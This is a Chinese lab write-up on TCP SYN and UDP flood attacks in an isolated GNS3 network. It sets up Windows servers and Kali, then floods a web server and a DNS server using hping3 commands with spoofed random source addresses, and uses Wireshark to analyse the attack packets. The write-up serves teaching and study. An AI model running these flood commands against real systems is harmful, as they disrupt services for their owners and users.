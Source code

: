 # TCP, UDP Flood 攻击



## 原理

![image-20241114201013859](https://s2.loli.net/2024/11/14/KZNc6O3FBzHaYxh.png)



![image-20241114201038779](https://s2.loli.net/2024/11/14/4EGoxBeIuzcHRq7.png)

![image-20241114201204135](https://s2.loli.net/2024/11/14/4AM3ZOqdiswxoLW.png)





## TCP Flood攻击



### 配置环境



#### Windows Server 2016配置

<img src="https://s2.loli.net/2024/11/09/u1rngB2wO4GLXNx.png" alt="image-20241109104636217" style="zoom:33%;" />



服务器管理器，创建一个Web服务器并开启该服务器功能

![image-20241109145742883](https://s2.loli.net/2024/11/09/DHp3vXN4khjt71r.png)





#### kali配置



`vim /etc/network/interfaces`

![image-20241109144821832](https://s2.loli.net/2024/11/09/O8VBpjfd9Uw1SI3.png)

`ifup eth0` 开启网络



查看Kali ip 信息：

<img src="https://s2.loli.net/2024/11/09/VXyJrhcQ23v8Z4R.png" alt="image-20241109105102854"  />



#### 修改路由器信息：



拓扑关系如下所示：

![image-20241109145521425](https://s2.loli.net/2024/11/09/r9kMCXcQJhSyEbA.png)



GNS 3 中修改路由器 R1:

<img src="https://s2.loli.net/2024/11/09/ZIA3C8pMTUqOenm.png" alt="image-20241109132136568"  />

<img src="https://s2.loli.net/2024/11/09/AFNzmCcHywpYk6M.png" alt="image-20241109132412787"  />



![image-20241109132451903](https://s2.loli.net/2024/11/09/H6Uar8eKISBwtCg.png)



**GNS3 中修改Wireshark路径**

![image-20241109133027360](https://s2.loli.net/2024/11/09/9FjdzqMyVuQIfsn.png)



#### 连通性测试：

Windows Server 2016 ping kali: 

![image-20241109144147854](https://s2.loli.net/2024/11/09/tjyPTrWQVgvX5cR.png)



kali ping Windows Server 2016: 

![image-20241109144301958](https://s2.loli.net/2024/11/09/NYPW4o5wBfEpk21.png)



### 攻击



此时kali可以正常访问服务器：

![image-20241109150552373](https://s2.loli.net/2024/11/09/9ydJGBevscb6Fhm.png)



在Kali Linux上使用 `hping3` 攻击Windows 2016 Server

`hping3 -S（表示SYN Flood攻击） -c 包数量 –-flood（表示以最快速度发送包，并且不显示回复） -d 每个包中数据长度 -w 窗口长度 -p 目标端口号 --rand-source（表示以随机的IP地址发送流量）`



在GNS3上服务器网段上打开Wireshark抓包



`hping3 -S -c 100 --flood -d 32 -w 64 -p 80 --rand-source 192.168.2.2`

![image-20241109162645887](https://s2.loli.net/2024/11/09/WJoMVOu9xACyRFg.png)

此时服务器可以正常访问



`hping3 -S -c 500 --flood -d 64 -w 128 -p 80 --rand-source 192.168.2.2`

![image-20241109162713438](https://s2.loli.net/2024/11/09/8gn5rRH7wKDuXld.png)

此时服务器也可以正常访问，但加载时间较长



`hping3 -S -c 1000 --flood -d 128 -w 512 -p 80 --rand-source 192.168.2.2`

![image-20241109162826542](https://s2.loli.net/2024/11/09/D1M4cQrWxHXb5iV.png)



此时服务器无法访问，页面无法加载

![image-20241109151812208](https://s2.loli.net/2024/11/09/45UIAGLuzQBtZD8.png)





## UDP 攻击



### 创建 DNS 服务器域名到 IP 地址的映射



创建了DNS服务器上www.cybersecurity.com到其IP地址的映射关系：

1. 新建区域：

![image-20241109164042178](https://s2.loli.net/2024/11/09/kn3oNyxl5IHA1sz.png)

区域名为 `www.cybersecurity.com`

![image-20241109164121888](https://s2.loli.net/2024/11/09/VqIWhBUXjY6kGAx.png)

新建主机：

![image-20241109164222348](https://s2.loli.net/2024/11/09/HjCBvb6FQ5LdTgi.png)

填写ip地址作为该域名的解析地址：

![image-20241109164301606](https://s2.loli.net/2024/11/09/4bymuXS2dTDIH1z.png)







### **win 10 访问域名**

win10 网络配置如下：

![image-20241109165201330](https://s2.loli.net/2024/11/09/165FkJX8SZerhTj.png)



Win10 正常解析出 www.cybersecurity.com的IP地址：

![image-20241109165351812](https://s2.loli.net/2024/11/09/P7Q3oZRGkNWIUjn.png)





Wireshark抓取该过程的UDP报文：

![image-20241109171320690](https://s2.loli.net/2024/11/09/wa63etH1u8MZiSB.png)



Win10请求Windows Server2016 DNS 解析的UDP报文分析：

![image-20241109171126143](https://s2.loli.net/2024/11/09/gI1aCMfHNvA25bV.png)

UDP 字段包括：源端口号，目的端口号，报文长度，校验和，时间戳，载荷。

数据段包括请求的选项、查询部分(Queries) ,查询部分包括域名(`www.cybersecurity.com`)，域名长度(`Name Length : 21 `)，查询类型 (`Type: AAAA`) 



**Windows Server 2016的响应报文如下：**

![image-20241109171159120](https://s2.loli.net/2024/11/09/cjxKvf4CiM6wBku.png)

响应报文中数据段额外包含 Answers 字段：包括对客户端查询的回答(`addr 192.168.2.3`)、请求到达时间、响应时间





### 攻击

通过Kali Linux的hping3工具用以下指令攻击Windows2016服务器

`hping3 --udp --rand-source -p 53 -d 100 --flood 192.168.2.2`

- `--rand-source` : 表示使用随机源ip地址

  

该过程打开真实机上的Wireshark抓取192.168.2.0/24网段的流量，观察并分析攻击时发送的UDP包的特征： UDP 包的源 IP 地址随机，且UDP 包的格式非法(`Malformed Packet`)

![image-20241109172218589](https://s2.loli.net/2024/11/09/eolNcU5gKxXZEAi.png)



攻击UDP 包的具体内容如下：

![image-20241109173057790](https://s2.loli.net/2024/11/09/78kvZfnQeE6sxwF.png)

攻击UDP包的特征：

1. 基于UDP协议，目标端口是 53（DNS 端口）
2. 源 IP 地址是随机变化的 (`--rand - source`参数)
3.  “Malformed Packet: DNS”（畸形 DNS 数据包）。因为`hping3`发送的数据包可能不符合正常的 DNS 数据包格式，目的是通过发送异常数据包来干扰或攻击目标服务器的 DNS 服务。这种畸形数据包可能会导致目标服务器在处理 DNS 请求时出现错误，消耗系统资源来处理这些异常情况。



此时在Windows10上通过nslookup 无法解析出域名

![image-20241109172142326](https://s2.loli.net/2024/11/09/esKYbSpXnPgRMEo.png)
